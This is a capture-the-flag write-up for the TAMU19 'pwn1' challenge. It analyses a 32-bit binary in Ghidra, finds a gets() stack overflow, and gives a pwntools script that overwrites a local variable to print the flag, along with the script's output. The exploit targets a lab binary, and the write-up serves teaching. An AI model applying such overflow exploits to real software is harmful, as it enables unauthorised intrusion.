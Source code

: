 # Tamu19 pwn1
Let's take a look at the binary:
```bash
$    file pwn1
pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
$    pwn checksec pwn1
[*] '/Hackery/pod/modules/bof_variable/tamu19_pwn1/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$    ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
15935728
I don't know that! Auuuuuuuugh!
```
We can  see that this is  bit binary with RELRO, a non-executable stack and pie
When we run the binary, it prompts us for input, and print some text. Take a look at the main function in Ghidra:
```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* WARNING: Removing unreachable block (ram,0x000108bb) */

undefined4 main(void)

{
  int strcmpResult0;
  int strcmpResult1;
  char input [43];
 
  setvbuf(stdout,(char *)0x2,0,0);
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  strcmpResult0 = strcmp(input,"Sir Lancelot of Camelot\n");
  if (strcmpResult0 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  strcmpResult1 = strcmp(input,"To seek the Holy Grail.\n");
  if (strcmpResult1 == 0) {
    puts("What... is my secret?");
    gets(input);
    puts("I don\'t know that! Auuuuuuuugh!");
    return 0;
  }
  puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

We can see that it scan into `input` using `fgets`, then compare it with `strcmp()`. It does this twice:
- The first time it check for the string `Sir Lancelot of Camelot\n`. If we don't pass the check it will print `I don't know that! Auuuuuuuugh!` and exit.
- The second time is similar to the first one.
- Then the function will call `gets`, which we already know will scan data until either get a newline character or an EOF. Thus, this can cause stack overflow.

Also, we looking at the assembly code around the gets call, we see some interesting that the decompile doesn't show us:
```asm
        000108aa e8 71 fc        CALL       gets                                             char * gets(char * __s)
                 ff ff
        000108af 83 c4 10        ADD        ESP,0x10
        000108b2 81 7d f0        CMP        dword ptr [EBP + local_18],0xdea110c8
                 c8 10 a1 de
        000108b9 75 07           JNZ        LAB_000108c2
        000108bb e8 3d fe        CALL       print_flag                                       undefined print_flag()
                 ff ff
```

So we can see that it compares the contents of local_18 to 0xdea110c8, and if it is equal (which would mean it's zero) it calls the print_flag function. Looking at the decompiled code for print_flag, we see that it prints the contents of flag.txt.
```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void print_flag(void)

{
  FILE *flagFile;
  int flag;
 
  puts("Right. Off you go.");
  flagFile = fopen("flag.txt","r");
  while( true ) {
    flag = _IO_getc((_IO_FILE *)flagFile);
    if ((char)flag == -1) break;
    putchar((int)(char)flag);
  }
  putchar(10);
  return;
}
```
So if we can use the gets call to overwrite the contents of local_18 to `0xdea110c8`, we should get the flag (if you're running this locally you will need to have a copy of flag.txt that is in the same directory as the binary).


Looking at the stack layout in Ghidra (we can see it by double clicking on any of the variables in the variable declarations for the main function) shows us the offset between the start of our input and local_18:
```asm
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[2]:     00010807(W),
                                                                                                   00010869(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     00010779(*)  
             int               EAX:4          strcmpResult0                           XREF[1]:     00010807(W)  
             int               EAX:4          strcmpResult1                           XREF[1]:     00010869(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 local_18                                XREF[2]:     000107b4(W),
                                                                                                   000108b2(R)  
             char[43]          Stack[-0x43]   input                                   XREF[5]:     000107ed(*),
                                                                                                   00010803(*),
                                                                                                   0001084f(*),
                                                                                                   00010865(*),
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*),
                                                                                          _start:000105e6(*), 00010ab8,
                                                                                          00010b4c(*), 00011ff8(*)  
        00010779 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]


```
We can see that input starts at offset -0x43. We see that local_18 starts at offset -0x18. This gives us an offset of `0x43 - 0x18 = 0x2b` between the start of our input and local_18. Then we can just overflow it (write more data to a region than it can hold, so it spills over and starts overwriting subsequent things in memory) and overwrite `local_18` with `0xdea110c8`.
## Exploit
So, in order to reach the `gets` call, we need to send the program string `Sir Lancelot of Camelot\n` and `To seek the Holy Grail.\n`. 
Then we overwrite `local_18` with `0xdea110c8`. We got a exploit program:

```py
# Import pwntools
from pwn import *

# Establish the target process 
target = process('./pwn1')

# Make the payload
payload = ""
payload += "0" * 0x2b
payload += p32(0xdea110c8)

target.sendline("Sir Lancelot of Camelot\n")
target.sendline("To seek the Holy Grail.\n")

# Send the payload
target.sendline(payload)

target.interactive()
```


when we run it
```bash
$    python exploit.py
[+] Starting local process './pwn1': pid 12060
[*] Switching to interactive mode
[*] Process './pwn1' stopped with exit code 0 (pid 12060)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```